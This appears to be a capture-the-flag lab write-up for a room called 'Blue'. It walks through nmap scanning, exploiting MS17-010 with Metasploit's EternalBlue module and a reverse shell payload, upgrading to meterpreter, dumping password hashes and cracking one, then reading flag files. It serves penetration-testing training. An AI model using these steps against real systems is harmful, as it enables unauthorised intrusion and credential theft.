 > # Blue

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 1 - Recon](#task-1---recon)
    - [Task 2 - Gain Access](#task-2---gain-access)
    - [Task 3 - Escalate](#task-3---escalate)
    - [Task 4 - Cracking](#task-4---cracking)
    - [Task 5 - Find flags!](#task-5---find-flags)

<!-- /TOC -->

## Task 1 - Recon
1. How many ports are open with a port number under 1000?<br>
    Scan the target with `nmap` tool.<br>
    ```
    $ nmap 10.10.104.140 -Pn
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-03 06:57 EDT
    Nmap scan report for 10.10.104.140
    Host is up (0.25s latency).
    Not shown: 991 closed tcp ports (conn-refused)
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49160/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 19.07 seconds
    ```
    **Answer:** 3

1. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)<br>
    Find vulnerable with nmap.<br>
    ```
    $ nmap --script vuln 10.10.104.140
    \<SNIP>
    Host script results:
    |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
    |_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
    |_smb-vuln-ms10-054: false
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    ```
    Nmap found the ms17-010 vuln.<br>
    **Answer:** ms17-010

## Task 2 - Gain Access
1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)<br>
    In metasploit, search with `ms17-010`.<br>
    ![](images/1.png)<br>
    Line has id equal to 0 is correlate to this room.<br>
    **Answer:** exploit/windows/smb/ms17_010_eternalblue

1. Show options and set the one required value. What is the name of this value? (All caps for submission)<br>
    Use `show options`.<br>
    ![](images/2.png)<br>
    Set rhosts to the target IP address.<br>
    **Answer:** rhosts

    Set the payload to windows/x64/shell/reverse_tcp then run the exploit, you will gain a reverse shell from the target.<br>
    ![](images/3.png)<br>

## Task 3 - Escalate
1. Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?<br>
    Follow to this [guideline](https://null-byte.wonderhowto.com/how-to/upgrade-normal-command-shell-metasploit-meterpreter-0166013/)<br>, we will use the module called `shell_to_meterpreter`.<br>
    Search it in metasploit to find full path.<br>
    ![](images/4.png)<br>
    **Answer:** post/multi/manage/shell_to_meterpreter

1. Select this (use MODULE_PATH). Show options, what option are we required to change?<br>
    Show all options of this module.<br>
    ![](images/5.png)<br>
    
    **Answer:** SESSION

    Because we only have one session from previous task, so we will set the value of this option to 1.<br>
    `set session 1` then run the exploitation.<br>
    Now, we have a new meterpreter session and current use is nt authority\system.<br>
    ![](images/6.png)<br>

    List all running process on the target, we have to select a runnnig process has user is nt authority\system. At here, I chose spoolsv.exe which has pid 1308.<br>
    ![](images/7.png)<br>
    Migrate to this process with `migrate 1308`.<br>

## Task 4 - Cracking
1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? <br> 
    Run `hashdump` command.<br>
    ![](images/8.png)<br>
    The dafault uses are Admin and Guest, so Jon is the non-default user who we are looking for.<br>
    **Answer:** Jon

1. Copy this password hash to a file and research how to crack it. What is the cracked password?<br>
    Copy Jon's hash to [crackstation.net](https://crackstation.net).<br>
    ![](images/9.png)<br>
    **Answer:** alqfna22

## Task 5 - Find flags!
1. Flag1? This flag can be found at the system root. <br>
    Flag1 is in `C:\flag1.txt`.<br>
    ```
    C:\Windows\system32>type C:\flag1.txt
    type C:\flag1.txt
    flag{}    
    ```
    **Answer:** flag{\<redacted>}

1. Flag2? This flag can be found at the location where passwords are stored within Windows.<br>
    Windows OS stored credential in path `C:\Windows\system32\Config`, flag2 is in this path.<br>
    ```
    C:\Windows\system32>type Config\flag2.txt
    type Config\flag2.txt
    flag{}
    ```
    **Answer:** flag{\<redacted>}

1. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. <br>
    The admin account is Jon, I try to list files for each directory in Jon's path and the flag3 is in `Documents`.<br>
    ```
    C:\Windows\system32>type C:\Users\Jon\Documents\flag3.txt
    type C:\Users\Jon\Documents\flag3.txt
    flag{}
    ```
    **Answer:** flag{\<redacted>}

